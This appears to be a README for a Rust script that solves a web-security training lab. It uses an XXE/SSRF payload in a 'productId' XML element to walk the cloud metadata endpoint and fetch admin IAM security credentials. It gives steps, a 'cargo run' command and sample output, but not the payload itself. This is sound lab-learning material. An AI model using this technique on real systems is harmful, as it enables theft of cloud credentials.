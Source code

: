 ## Hack Steps

1. Inject payload into 'productId' XML element to retrieve the path via SSRF
2. Extract the path from the response
3. Repeat the process with the new extracted path until you fetch the admin information

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: productId
⦗1⦘ Injecting payload to retrieve the path number 1.. OK => /latest/
⦗2⦘ Injecting payload to retrieve the path number 2.. OK => /latest/meta-data/
⦗3⦘ Injecting payload to retrieve the path number 3.. OK => /latest/meta-data/iam/
⦗4⦘ Injecting payload to retrieve the path number 4.. OK => /latest/meta-data/iam/security-credentials/
⦗5⦘ Injecting payload to retrieve the path number 5.. OK => /latest/meta-data/iam/security-credentials/admin/
❯❯ Fetching admin information.. OK
🗹 The lab should be marked now as solved
```
